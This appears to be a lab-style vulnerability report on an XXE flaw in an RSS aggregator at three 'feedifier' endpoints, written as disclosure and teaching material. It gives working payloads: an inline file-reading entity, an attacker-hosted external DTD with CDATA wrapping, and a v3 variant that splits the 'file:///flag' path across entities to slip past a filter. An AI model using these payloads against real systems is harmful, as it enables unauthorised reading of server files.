


# XML external entities vulnerability in 'feedifier.quoccabank.com' leading to local file inclusion

## Severity : High

## Report summary:

XXE vulnerability in the RSS aggregator functionality on  endpoints:

- 'https://v1.feedifier.quoccabank.com' 
- 'https://v2.feedifier.quoccabank.com'
- 'https://v3.feedifier.quoccabank.com'

leads to there being a local file inclusion vulnerability on all three of these end points.

## Steps to reproduce

Host your own website to serve your own malicious RSS files.

- **important note**
  - host the pages with a .html extension

Navigate to either v1, v2 or v3 versions for example "https://v1.feedifier.quoccabank.com"

Paste in the address to your external website which contains the malicious XML document.



The output should look something like this:



## Proof of concept 

### v1.feedifier

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file://<file_path>" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>The Blog</title>
    <link>http://example.com/</link>
    <description>A blog about things</description>
    <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&xxe;</title>
        <link>https://google.com</link>
        <description>asdasd</description>
        <author>author@example.com</author>
        <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```


### v2.feedifier

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title[<!ENTITY % load SYSTEM "<insert website here>/<external_dtd_path>.html"> %load;%bundle;] PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd" >
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>The Blog</title>
    <link>http://example.com/</link>
    <description>A blog about things</description>
    <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&atak;</title>
        <link>https://google.com</link>
        <description>asdasd</description>
        <author>author@example.com</author>
        <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```

External dtd file

```html
<!ENTITY % beg "<![CDATA[">
<!ENTITY % payload SYSTEM "file://<insert file path>">
<!ENTITY % end "]]>">
<!ENTITY atak "%beg;%payload;%end;">
```

 

### v3.feedifier

v3's exploit is basically identical to v2 with some changes in the dtd file

```html
<!ENTITY % beg "<![CDATA[">
<!ENTITY % end "]]>">

<!ENTITY % a "fi">
<!ENTITY % b "le:///fla">
<!ENTITY % c "g_d0642f00f99dbc509cf0551ddb81527d" >
<!ENTITY % d "%a;%b;%c;">

<!ENTITY % bundle "<!ENTITY atak '%beg;%d;%end;'>">
```

